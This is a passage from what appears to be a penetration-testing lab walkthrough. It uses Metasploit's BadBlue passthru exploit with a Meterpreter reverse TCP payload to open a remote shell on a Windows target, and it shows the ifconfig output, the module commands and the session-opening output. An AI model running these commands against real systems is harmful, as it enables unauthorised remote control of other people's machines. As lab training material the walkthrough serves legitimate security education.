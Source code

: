 _Determine the attacker's IP address using `ifconfig` to configure the reverse shell payload correctly._

`ifconfig`:
```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.1.0.11  netmask 255.255.0.0  broadcast 10.1.255.255
        ether 02:42:0a:01:00:0b  txqueuelen 0  (Ethernet)
        RX packets 7087  bytes 556851 (543.7 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 7035  bytes 4176562 (3.9 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.46.4  netmask 255.255.255.0  broadcast 10.10.46.255 ←
        ether 02:42:0a:0a:2e:04  txqueuelen 0  (Ethernet)
        RX packets 66120  bytes 3593701 (3.4 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 66909  bytes 3892542 (3.7 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 28698  bytes 99786356 (95.1 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 28698  bytes 99786356 (95.1 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

_Search for the appropriate BadBlue exploit module in Metasploit, load it, and configure it for the attack. The payload is set to reverse TCP, which will give us control over the target machine once exploited._

`msfconsole -q`

`search badblue`, `use exploit/windows/http/badblue_passthru`, `set PAYLOAD windows/meterpreter/reverse_tcp`, `show options`, `set LHOST 10.10.46.4`, `set LPORT 4444`, `set RHOSTS 10.4.23.63`, `exploit`:
```
[*] Started reverse TCP handler on 10.10.46.4:4444 
[*] Trying target BadBlue EE 2.7 Universal...
[*] Sending stage (175174 bytes) to 10.4.23.63
[*] Meterpreter session 1 opened (10.10.46.4:4444 -> 10.4.23.63:49983) at 2024-08-21 12:48:13 +0530 ←
```

_List the active sessions in Metasploit and interact with the newly opened Meterpreter session to start executing commands on the victim machine._

`sessions`, `sessions -i 1`

<span style="color: #64b5f6;">**Target (victim 1) machine**</span>.
